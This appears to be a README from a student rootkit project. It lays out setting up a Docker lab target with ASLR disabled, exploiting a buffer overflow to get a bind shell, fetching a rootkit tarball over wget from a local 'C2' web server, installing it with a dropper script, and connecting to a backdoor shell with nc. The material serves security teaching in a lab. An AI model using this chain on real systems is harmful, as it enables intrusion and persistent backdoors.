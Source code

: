 # Rootkit Project

## Project Layout

`rootkit/` - contains source code for malicious rootkit library 
`dropper/` - contains vulnerable target program and payload delivery code
`target/` - contains code for testing/target environment (will eventually be run on target server)

## Purpose

This readme details the process for setting up your test environment, and installing your malware using an exploit script.

In order to do install, you will run an exploit script which will exploit a buffer overflow in the target process.
This will open up a temporary bind shell into the process which you can use to install your rootkit onto the system.

This will give you a more permenant backdoor, and also allow you to use all of your features in the coming weeks, as you
add more.

## Test Target Environment Setup

Perform all these steps in the vm in the **target/ directory**

1. install docker

```sh
curl -fsSL https://get.docker.com -o get-docker.sh
sh get-docker.sh
```

2. disable ssh

```sh
sudo systemctl stop sshd
```

3. disable aslr

```sh
sudo echo 0 | sudo tee /proc/sys/kernel/randomize_va_space
```
4. install and enable apache

```sh
sudo apt install apache2
```

5. Install `pip` and `pwntools`

```sh
sudo apt-get install python3-pip
pip3 install pwn
```

6. Install `docker-compose`.

```sh
sudo apt install docker-compose
```

7. run `sudo docker compose up -d`

## Malware Installation Process

Preform these steps in the **dropper/ directory** 

### Set up C2

1. create rootkit tarball
> make sure you compile your rootkit and move the rootkit.so file to the 

```sh
tar -czf rootkit.tz drop.sh rootkit.so
```
 
2. move the rootkit tarball to /var/www/html ("C2 server")

```sh
cp rootkit.tz /var/www/html
```

### Run the exploit 

1. run your exploit, it will hang, let it do so

```sh
python3 exploit.py
```

2. in a separate terminal connect to localhost:4567 via `nc` (stage 1 bind shell)
3. download and unzip your tarball. To find your local IP address, run `ifconfig` and copy and paste the first IP address.

```sh
wget http://<your_ip_address>/rootkit.tz
tar -xzf rootkit.tz
```

4. install your malware

```sh
chmod +x drop.sh 
./drop.sh (installs your malware)
```

5. ssh into trigger address
```sh
ssh joebruin@localhost
```

6. open bind shell (nc localhost 1234)

```sh
nc localhost 1234
```

7. Hack Away - your malware is running in the docker container

